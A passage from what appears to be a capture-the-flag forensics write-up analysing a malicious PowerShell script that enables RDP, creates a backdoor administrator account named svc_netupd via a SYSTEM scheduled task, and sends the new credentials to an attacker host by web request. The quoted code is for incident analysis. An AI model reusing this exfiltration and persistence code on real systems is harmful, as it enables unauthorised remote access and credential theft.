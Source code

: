 ```velocity
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```

![Organization Evidence](/images/holmes_2025/the_enduring_echo/anh3.png)

-and logic that checks for existing users and, if none exist, picks one at random:
-That shows the script’s intent: create a user from that list, add it to the Administrators and Remote Desktop Users groups.

3. Correlation

- The scheduled task SysHelper Update (created earlier) runs JM.ps1 every 2 minutes as SYSTEM. That task + the script explain why the user creation event occurred and why svc_netupd (one of the candidate names) was created.

**Interpretation**

1. svc_netupd was created by the attacker as a local service-style account. The script intentionally:

- Generates a randomized password (Watson_<timestamp>),
- Creates the user with a plausible service name (Windows Update Helper),
- Escalates privileges by adding the account to the Administrators group, and
- Adds it to Remote Desktop Users and enables RDP, facilitating remote interactive access.
